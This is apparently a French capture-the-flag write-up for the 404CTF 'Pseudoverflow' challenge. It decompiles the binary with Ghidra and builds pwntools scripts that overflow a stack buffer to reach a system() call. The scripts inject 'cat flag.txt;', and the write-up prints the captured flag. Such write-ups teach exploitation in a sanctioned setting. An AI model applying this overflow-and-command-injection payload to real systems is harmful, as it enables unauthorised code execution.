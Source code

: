 # Pseudoverflow

## Sujet

```md
Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

Objectif: lire le fichier flag.txt
 
Auteur: @Narcisse
```

# Analyse statique

À l'aide de Ghidra on obtient ces deux fonctions :

```C
undefined8 main(void)

{
  int iVar1;
  char local_78 [106];
  undefined4 local_e;
  undefined2 local_a;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_e = 0x64726570;
  local_a = 0x73;
  puts(&DAT_00102008);
  fgets(local_78,0x100,stdin);
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
  else {
    puts("Nous vous recontacterons dans les prochaines semaines.");
  }
  return 0;
}
```

```C
void win(char *param_1)

{
  system(param_1);
  return;
}
```

La fonction `fgets` dans main étant vulnérable à un buffer overflow, on va exploiter cette vulnérabilité pour modifier la variable `local_e` afin de passer la condition suivante et atteindre la fonction `win` :

```C
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
```

Nous devrons ensuite utiliser l'appel system dans la fonctonion `win` pour ouvrir le fichier `flag.txt`.
Nous n'avons pas besoin d'analyse dynamique, passons directement à l'exploit.

# Analyse dynamique 

D'après l'analyse statique, la variable `local_78` utilisé en tant que buffer est de 106 bytes, et la variable `local_e` qui doit contenir `gagne` est stocké juste après dans la stack. Tentons de la modifier avec ce script :

```python
from pwn import *

offset = 106

payload = b"".join([
    b"\x41"*offset,
    b"gagne",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...") # Pour ouvrir le process sous GDB
p.send(payload)
p.interactive()
```

```console
$ python3 exploit.py          
[+] Starting local process './course': pid 6204
Waiting for debugger...
[*] Switching to interactive mode
[*] Process './course' stopped with exit code 0 (pid 6204)
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
Nous vous recontacterons dans les prochaines semaines.
[*] Got EOF while reading in interactive
$ 
```

Le code ne semble pas atteindre la fonction `win`. Allons voir sous GDB ce qu'il se passe :

```gdb
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5621850ac22e <main+009a>      lea    rdx, [rip+0xe3c]        # 0x5621850ad071
   0x5621850ac235 <main+00a1>      mov    rsi, rdx
   0x5621850ac238 <main+00a4>      mov    rdi, rax
 → 0x5621850ac23b <main+00a7>      call   0x5621850ac060 <strcmp@plt>
   ↳  0x5621850ac060 <strcmp@plt+0000> jmp    QWORD PTR [rip+0x2fb2]        # 0x5621850af018 <strcmp@got.plt>
      0x5621850ac066 <strcmp@plt+0006> push   0x3
      0x5621850ac06b <strcmp@plt+000b> jmp    0x5621850ac020
      0x5621850ac070 <setvbuf@plt+0000> jmp    QWORD PTR [rip+0x2faa]        # 0x5621850af020 <setvbuf@got.plt>
      0x5621850ac076 <setvbuf@plt+0006> push   0x4
      0x5621850ac07b <setvbuf@plt+000b> jmp    0x5621850ac020
───────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
strcmp@plt (
   $rdi = 0x00007ffe9bb8445a → 0x00000a656e676167 ("gagne\n"?),
   $rsi = 0x00005621850ad071 → 0x4e0000656e676167 ("gagne"?),
   $rdx = 0x00005621850ad071 → 0x4e0000656e676167 ("gagne"?)
)
```

La variable `local_e` contient le charactère "\n". Rajoutons un null byte pour signaler la fin du string :

```python
from pwn import *

offset = 106

payload = b"".join([
    b"\x41"*offset,
    b"gagne\x00",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...")
p.send(payload)
p.interactive()
```

```console
$ python3 exploit.py
[+] Starting local process './course': pid 6241
Waiting for debugger...
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
[*] Process './course' stopped with exit code 0 (pid 6241)
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgagne: not found
[*] Got EOF while reading in interactive
$
```

Nous exécutons effectivement du code : nous avons atteint la fonction `win`. Tentons de contrôler le code exécuté.
D'après l'analyse statique, la fonction `win` exécute le string passé en argument :

```C
void win(char *param_1)

{
  system(param_1);
```

Et la fonction main passe la variable `local_78` utilisé en tant que buffer est envoyé à la fonction `win` :

```C
win(local_78);
```

Injectons le code à exécuter dans la variable `local_78` :

```python
from pwn import *

offset = 106
cat = b"cat flag.txt;"

payload = b"".join([
    cat,
    b"\x00"*(offset-len(cat)),
    b"gagne\x00",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...")
p.send(payload)
p.interactive()
```

```console
$ echo flagIsHere > flag.txt

$ python3 exploit.py
[+] Starting local process './course': pid 6342
Waiting for debugger...
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
flagIsHere
[*] Got EOF while reading in interactive
$ 
[*] Process './course' stopped with exit code 0 (pid 6342)
```

On a bien ouvert le fichier voulu. Essayons maintenant d'exploit le service mis en ligne.

# Exploit

Nous allons envoyer le payload avec [ce script](./exploit.py) :

```console
$ python3 exploit.py
[+] Opening connection to challenges.404ctf.fr on port 31958: Done
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
404CTF{0v3rfl0w}[*] Got EOF while reading in interactive
$ 
[*] Closed connection to challenges.404ctf.fr port 31958
```

On obtient bien le flag : `404CTF{0v3rfl0w}`.
